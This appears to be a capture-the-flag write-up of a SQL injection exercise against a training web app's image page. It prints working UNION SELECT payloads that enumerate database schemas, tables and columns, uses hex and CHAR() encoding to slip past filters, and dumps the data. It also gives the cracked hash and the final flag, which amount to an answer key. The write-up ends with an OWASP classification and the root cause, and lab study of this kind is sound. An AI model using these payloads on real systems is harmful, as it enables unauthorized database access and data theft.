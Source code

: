 # Extract the Flag from `Member_images.list_images`

### **1. the scenario**


```sql 
1 UNION SELECT schema_name, NULL FROM information_schema.schemata 

```
and after investigating them one after other, **Member_images** is the one.
and it has one only table *list_images*, that i extracted using this command 

```sql 
1 UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 105, 109, 97, 103, 101, 115)


hint: CHAR(77, 101, 109, 98, 101, 114, 95, 105, 109, 97, 103, 101, 115) = 'Member_images'
```

---

### **2. List the columns**

Injected:

```sql
1 UNION SELECT group_concat(column_name), NULL
FROM information_schema.columns
WHERE table_name=0x6c6973745f696d61676573
  AND table_schema=0x4d656d6265725f696d61676573-- -
```

```sql
The value 0x6c6973745f696d61676573 is a hexadecimal representation of the string list_images.
And The value 0x4d656d6265725f696d61676573 represents the string Member_images, a database schema.
```


* Output:

```
id, url, title, comment
```

* Only **text columns** (`title` and `comment`) are useful for finding hints or flags.

---

### **3. Extract the data**

Injected:

```sql
1 UNION SELECT title, comment FROM Member_images.list_images-- -
```

* Output highlights the `comment` associated with the title `Hack me ?`:

```
First name: Hack me ?
Surname : If I read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```
Using

* **Observation:** The comment contains an **MD5 hash** and instructions:

  1. Decode the MD5 hash.
  2. Convert the result to lowercase.
  3. Apply SHA-256 on the lowercase result.

---

### **4. Follow the instructions step by step**

#### a) MD5 hash given:

```
1928e8083cf461a51303633093573c46
```

#### b) Step 1 — MD5 decode

* I can use **online MD5 lookup** tools (or a local script).
* Decoded result:

```
albatroz
```

#### c) Step 2 — lowercase

* Convert `albatroz` → `albatroz`

#### d) Step 3 — SHA-256

* Compute SHA-256 of `albatroz`.
* the **final flag** :  f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

### **5. What the vulnerability is (OWASP classification)**

#### Vulnerability name: SQL Injection — arbitrary query execution and data exfiltration via crafted input (e.g., UNION SELECT, information_schema enumeration).

OWASP Top 10 (2021) classification:
A03 — Injection.

Why: The application directly incorporates attacker-controlled input into SQL statements without proper parameterization or allowlisting, so an attacker can change the intended query logic to enumerate schemas/tables, read sensitive data, or execute destructive queries.

### ** 6. Root cause **

the application interpolates user input directly into SQL queries (no parameterization) and allows arbitrary identifiers to influence the query. This allowed an attacker to inject UNION SELECT payloads to enumerate schemas/tables/columns and exfiltrate row data. Contributing factors: overly permissive DB privileges and lack of output filtering/least privilege.





> tips:
* information_schema is a metadata database provided by most RDBMSs for listing databases/tables/columns
* schemata is the table that lists all schemas/databases on the server 
* CHAR(...) / 0x... encoding  used to bypass naive filters and quoting differences between DB engines.
* Column-count & type matching — attackers often trial-and-error to match the number and datatypes of columns returned by the original query
* Why GROUP_CONCAT / GROUP_CONCAT(column) — to combine column names into a single output cell